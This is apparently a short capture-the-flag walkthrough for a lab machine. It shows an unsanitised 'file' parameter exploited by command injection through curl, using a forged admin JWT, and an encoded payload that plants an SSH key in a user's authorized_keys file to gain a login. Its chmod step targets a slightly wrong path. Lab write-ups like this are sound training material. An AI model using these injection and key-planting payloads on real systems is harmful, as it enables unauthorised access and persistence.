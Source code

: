 If we look in `local-web/routes/private.js`

we see the `file` variable is not sanitized


We can get code execution with this payload:

```
curl -XGET 'http://secret.htb:3000/api/logs?file=/home;<URL ENCODED PAYLOAD>' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.52W5mGLsIO2iiLpy3f1VkVavP4hOoWHxy5_0BDn9UKo"
```

We create a `.ssh` folder and `authorized keys` with our id_rsa.pub

Final payload:

```
curl -XGET 'http://secret.htb:3000/api/logs?file=/home;echo+%22ssh-rsa+AAAAB3NzaC1yc2EAAAADAQABAAABgQCmupLnCHYTjXVR%2Ff0oFfJ4v%2BA1%2BqWtZWQxHIP4yZ7HaPsdMLW%2Bobj7fRCtKHVYaEQVlOiOEbim2BAWcBCOq774MeZ0tTr37e%2FBEXFG7CB8gmFYPpoo1DXkPQwugDqoV6F872V86TnD6wHp3UpTuZxeTwBE80HsvN%2FA7CTSX80MllrEHqyzZ4SgoBMAMr90nXftI8G9UhTK51%2FA05Rhe%2BY7mzwQbXAIz9ObqlxVlY%2BmO7mR4sEI5UtDvN%2BU158NGasyttH5Zf9HXpmfOOPOHOaHA0omDhfmmqp1%2BFmfYPbAJo9%2BVivCs0%2B2Ir0EPrUaOOTCz8ucz740UsiIkKBboJvKIaIGRozaRsIpUD4o3MWqK3iwLNTtF7kknz4TFGpA2E6YnnTX6amtx5ed7mCTGy6KIliTheI9kSYY5T8sYoCc9NyacTm0D6bLzWAg4C0fG1q8d6ir%2FH0tB0Cr5DCShao49WWiGQGvcOp7GuxOFdnl6xtlu87N2XPOQw6PAtqxIwk%3D+keez%40kali%22+%3E%3E+%2Fhome%2Fdasith%2F.ssh%2Fauthorized_keys%3B+chmod+0600+%2Fhome%2Fdasith%2Fauthorized_keys' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.52W5mGLsIO2iiLpy3f1VkVavP4hOoWHxy5_0BDn9UKo"
```

We can now ssh in as Dasith